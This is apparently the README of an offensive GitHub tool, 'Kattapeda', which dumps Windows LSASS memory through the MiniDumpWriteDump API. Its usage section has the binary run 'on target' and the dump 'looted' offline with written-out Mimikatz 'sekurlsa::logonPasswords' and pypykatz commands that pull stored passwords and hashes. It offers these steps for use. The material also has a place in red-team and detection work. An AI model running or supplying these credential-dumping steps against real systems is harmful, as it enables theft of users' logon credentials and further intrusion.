 
██╗  ██╗ █████╗ ████████╗████████╗ █████╗ ██████╗ ███████╗██████╗  █████╗ ");
██║ ██╔╝██╔══██╗╚══██╔══╝╚══██╔══╝██╔══██╗██╔══██╗██╔════╝██╔══██╗██╔══██╗");
█████╔╝ ███████║   ██║      ██║   ███████║██████╔╝█████╗  ██║  ██║███████║");
██╔═██╗ ██╔══██║   ██║      ██║   ██╔══██║██╔═══╝ ██╔══╝  ██║  ██║██╔══██║");
██║  ██╗██║  ██║   ██║      ██║   ██║  ██║██║     ███████╗██████╔╝██║  ██║");
╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝      ╚═╝   ╚═╝  ╚═╝╚═╝     ╚══════╝╚═════╝ ╚═╝  ╚═╝");

![Version](https://img.shields.io/badge/release-N/A-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

Kattapeda is a very simple LSASS memory dump tool in C# based on Win32 `MiniDumpWriteDump` API. 
The dump file created, can be exploited offline with Mimikatz or Pypykatz.

>[!CAUTION]
> The dump will fail if the memory is LSA protected. Consequently, the created file will be empty. Check the prerequisite before running kattapeda.

### [+] USAGE
- compile the .cs source code
- on target, execute the program:
`.\kattax64.exe c:\windows\tasks\mini.dmp`
- offline, use pypykatz or mimikatz to loot the content of the lsass memory dump using:
`mimikatz # sekurlsa::minidump lsass.dmp sekurlsa::logonPasswords`
or:
`pypykatz lsa minidump lsass.dmp`

The content of the dumped memory will be written into the file passed as argument. By default, the program uses `c:\windows\tasks\mini.dmp`




